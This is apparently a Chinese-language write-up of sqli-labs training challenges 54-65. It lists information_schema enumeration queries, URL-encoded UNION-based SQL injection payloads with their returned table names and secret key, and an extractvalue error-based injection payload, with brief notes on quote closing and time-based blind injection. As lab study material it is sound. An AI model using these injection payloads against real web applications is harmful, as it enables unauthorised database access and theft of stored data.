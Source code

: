 ## note

1. show tables
```
select group_concat(table_name) from information_schema.tables where table_schema='数据库名字' 
```
2. des 表名
```
select group_concat(column_name) from information_schema.columns where table_name='表名' 
```
3. 数据

```
select group_concat(列名) from 数据库名字.表名
``` 

## 54

什么都没有过滤

只有10次注入的机会，去拿到 Database (CHALLENGES) 里的secret key

1. 知道数据库名，找到表名

```

?id=0' union select 1,2, group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%27challenges%27--+

TY7VY0TOJZ

```

2.  知道表名，获得表结构

```
 
?id=0%27union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=%27TY7VY0TOJZ%27--+

id,sessid,secret_B6N2,tryy

```


3. 找到数据

```

?id=0%27union%20select%201,2,group_concat(secret_B6N2)%20from%20challenges.TY7VY0TOJZ --+

5iY4tQznL3IBZ9hIMFzHqf0O

````


## 55 - 57

55 测试几次发现参数只是被括号包裹了，让括号闭合即可

56 参数被括号和单引号包裹

57 参数被双引号包裹

## 58 - 61

似乎无论如何计算都无法获得数据库数据，但是由于有错误回显，所以可以进行显错注入。

在extractvalue 中加入语句

?id=-1'union select extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='challenges'),0x7e))--+

## 62-65 

时间盲注
 
